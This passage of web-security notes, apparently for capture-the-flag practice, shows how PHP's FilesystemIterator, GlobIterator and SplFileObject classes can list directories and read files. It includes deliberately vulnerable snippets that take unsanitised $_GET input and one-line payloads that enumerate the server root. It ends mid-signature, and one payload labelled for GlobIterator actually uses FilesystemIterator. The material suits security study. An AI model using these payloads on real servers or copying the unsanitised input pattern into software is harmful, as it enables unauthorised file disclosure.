 > Use the FilesystemIterator class
```php
<?php
$dir = $_GET['whoami'];
$a = new FilesystemIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// It is also OK to not add __toString(), because echo can be called automatically
}
?>

# payload in the form of a sentence:
$a = new FilesystemIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```

> Using the GlobIterator class

```php
<?php
$dir = $_GET['whoami'];
$a = new GlobIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// It is also OK to not add __toString(), because echo can be called automatically
}
?>

# payload in the form of a sentence:
$a = new FilesystemIterator("/*");foreach($a as $f){echo($f->__toString().'<br>');}
```

### Readable file class
> The currently discovered readable file class `SplFileObject` and `SplFileInfo` class provide a high-level object-oriented interface for information of a single file, which can be used to traverse, find, operate, etc. of file content.

```php
class SplFileObject extends SplFileInfo implements RecursiveIterator, SeekableIterator {
/* Constants */
const int DROP_NEW_LINE = 1;
const int READ_AHEAD = 2;
const int SKIP_EMPTY = 4;
const int READ_CSV = 8;
/* Methods */
public __construct(
    string $filename,
    string $mode = "r",
    bool $useIncludePath = false,
    ?resource $context = null
)
public current(): string|array|false
public eof(): bool
public fflush(): bool
public fgetc(): string|false
public fgetcsv(string $separator = ",", string $enclosure = "\"", string $escape = "\\"): array|false
public fgets(): string
public fgetss(string $allowable_tags = ?): string
public flock(int $operation, int &$ wouldBlock = null): bool
public fpassthru(): int
public fputcsv(
    array $fields,
    string $separator = ",",
    string $enclosure = "\"",
    string $escape = "\\",
    string $eol = "\n"
```